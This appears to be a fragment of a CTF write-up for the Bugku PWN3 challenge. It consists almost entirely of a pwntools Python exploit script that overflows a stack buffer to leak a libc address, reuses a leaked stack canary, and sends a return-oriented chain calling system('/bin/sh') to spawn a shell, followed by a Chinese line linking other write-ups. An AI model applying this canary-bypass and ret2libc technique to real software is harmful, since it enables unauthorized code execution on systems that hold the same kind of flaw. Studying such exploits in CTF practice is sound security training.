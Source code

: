   ```python
  
  
  puts_plt = elf_base + puts_plt_add
  puts_got = elf_base + puts_got_add
  pop_rdi = elf_base + pop_rdi_add
  main = elf_base + main_add
  
  #===============Round 3 leak libc_base_addr==========
  p.recvuntil("path:")
  p.sendline("flag")
  p.recvuntil("len:")
  p.sendline("1000")
  payload = "A" * (0x260 + 8*5-1)+"B" 
  p.send(payload)
  p.recvuntil("B")
  x = p.recvuntil("please")
  print x
  main_abs = u64(x[:8].split("\n")[0].ljust(8,"\x00"))
  libc_base = main_abs - (libc.symbols["__libc_start_main"] + 240)	#-(libc.symbols["__libc_start_main"] + 240)
  print hex(main_abs)
  p.recvuntil("(len is 624)\n")
  payload = "A" * (0x260-8) 
  payload += p64(canary)
  payload += 'a'*0x8
  payload += p64(main)
  p.send(payload)
  
  bin_abs = libc_base + next(libc.search("/bin/sh"))
  sys_abs = libc_base + libc.symbols["system"]
  
  #===============Round 4 get shell====================
  p.recvuntil("path:")
  p.sendline("flag")
  p.recvuntil("len:")
  p.sendline("1000")
  payload = "A" * (0x260-8)
  payload += p64(canary)
  payload += p64(0)
  payload += p64(pop_rdi)
  payload += p64(bin_abs)
  payload += p64(sys_abs)
  
  p.send(payload)
  p.recv()
  p.recvuntil("(len is 624)\n")
  p.send('getshell!!!')
  p.interactive()
  ```

  这道题目其他WP：[橘小白](<https://blog.csdn.net/kety_gz/article/details/100516666>)、[qfrost](<http://www.qfrost.com/PWN/bugku_PWN3/>)。

